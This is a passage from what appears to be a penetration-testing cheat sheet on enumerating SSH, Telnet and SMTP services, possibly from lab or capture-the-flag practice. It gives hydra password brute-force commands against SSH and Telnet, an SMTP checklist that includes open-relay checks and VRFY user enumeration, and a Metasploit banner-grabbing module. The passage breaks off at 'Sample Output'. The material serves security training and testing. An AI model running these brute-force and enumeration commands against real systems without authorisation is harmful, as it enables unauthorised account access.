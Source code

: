 Using `hydra`

```text
hydra -L /home/10.10.10.228/loot/userlist.txt -e nsr 10.10.10.228 -s 22 ssh
hydra -L /usr/share/wordlists/SecLists/Passwords/darkweb2017-top100.txt -e nsr 10.10.10.228 -s 22 ssh
```

## Summary

- If SSH is enabled, make note of it as it may be leveraged later on in further attacks
  - Injection attacks enabling us to write our own RSA key and obtain SSH access
  - Brute force

# Port 23 - Telnet

Telnet is considered insecure mainly because it does not encrypt its traffic. Also a quick search in exploit-db will show that there are various RCE-vulnerabilities on different versions. Might be worth checking out.

## Brute forcing telnet

You can also brute force it like this:

```text
hydra -l root -P /root/SecLists/Passwords/10_million_password_list_top_100.txt 192.168.1.101 telnet
```

# Port 25 - SMTP

SMTP is a server to server service. The user receives or sends emails using IMAP or POP3. Those messages are then routed to the SMTP-server which communicates the email to another server. Here are some things to we can do when enumerating a SMTP server:

## Checklist
- Grab banners and version
- Check vulnerabilities and exploits
- Check for open-relay
- Check supports commands
- Use VRFY to enumerate users

## Metasploit

### SMTP Version

SMTP Banner Grabber.

```
use auxiliary/scanner/smtp/smtp_version
services -p 25 -u -R
```
Sample Output
